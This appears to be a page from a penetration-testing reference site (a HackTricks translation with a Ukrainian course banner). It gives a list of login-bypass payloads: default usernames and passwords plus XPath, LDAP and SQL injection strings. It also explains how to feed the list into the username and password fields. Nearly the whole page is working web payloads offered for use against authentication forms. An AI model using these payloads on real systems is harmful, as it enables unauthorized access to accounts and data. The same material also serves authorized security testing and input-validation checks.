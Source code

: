 <details><summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>


This list contains **payloads to bypass the login via XPath, LDAP and SQL injection**(in that order).

The way to use this list is to put the **first 200 lines as the username and password.** Then, put the complete list in the username first and then in the password inputs while putting some password (like _Pass1234._) or some known username (like _admin_).
```
admin
password
1234
123456
root
toor
test
guest
' or '1'='1
' or ''='
' or 1]%00
' or /* or '
' or "a" or '
' or 1 or '
' or true() or '
'or string-length(name(.))<10 or'
'or contains(name,'adm') or'
'or contains(.,'adm') or'
'or position()=2 or'
admin' or '
admin' or '1'='2
*
*)(&
*)(|(&
pwd)
*)(|(*
*))%00
admin)(&)
pwd
admin)(!(&(|
pwd))
admin))(|(|
1234
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'
' or ''*'
"-"
" "
"&"
"^"
"*"
" or ""-"
" or "" "
" or ""&"
" or ""^"
" or ""*"
```